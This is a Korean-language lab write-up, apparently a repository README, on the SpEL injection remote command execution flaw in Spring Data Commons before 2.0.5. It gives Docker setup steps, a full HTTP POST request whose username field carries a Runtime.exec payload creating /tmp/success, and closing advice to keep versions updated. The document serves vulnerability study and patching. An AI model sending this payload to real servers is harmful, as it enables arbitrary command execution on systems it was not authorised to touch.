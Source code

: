 ### 요약
- Spring Data: DB Access를 단순화하고 클라우드 서비스를 지원하기 위한 오픈 소스 프레임워크
- Spring Data Commons: Spring Data의 모든 하위 프로젝트 공유를 위한 기본 프레임워크
- Spring Data Commons 2.0.5 이전 버전에서는 공격자가 임의의 명령을 실행하기 위하여 악의적인 spEL(Spring Expression Language) 표현을 주입 가능

### 환경 구성 및 실행
1. `docker compose up -d` 커맨드 실행 (spring-data-commons:2.0.5 이미지 사용)
2. `pip install requests` 커맨드 실행
3. `python3 poc.py` 커맨드 실행
4. `docker compose exec spring bash` 커맨드 실행
5. `ls /tmp` 커맨드 실행

### poc.py

아래 내용의 http request를 `http://[ip 주소]:8080/users` 로 전송
```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

위 내용의 패킷을 전송할 시 원하는 명령을 시행할 수 있으므로, poc.py를 실행하는 대신 proxy 도구를 이용하여 패킷 정보를 변경 후 전송하여도 취약점을 확인할 수 있다.

### 결과
![img_1.png](img_1.png)

### 정리
Spring Data Commons 2.0.5 이전 버전에서는 공격자가 원하는 명령을 주입하여 실행 가능하므로 악용될 시 보안에 심각한 위협을 초래할 수 있다.
따라서 주기적으로 버전을 확인하고 업데이트하는 것이 중요하다.
